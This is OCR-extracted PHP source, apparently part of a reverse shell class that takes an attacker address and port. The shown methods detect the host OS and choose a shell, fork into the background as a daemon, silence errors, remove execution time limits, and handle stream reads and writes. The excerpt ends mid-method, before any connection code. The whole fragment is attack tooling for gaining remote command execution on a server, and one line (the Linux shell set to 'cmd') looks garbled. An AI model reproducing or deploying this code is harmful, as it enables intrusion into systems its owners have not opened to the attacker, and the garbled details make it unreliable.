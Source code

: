 ```pHP
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'cmd';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from ${name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
```
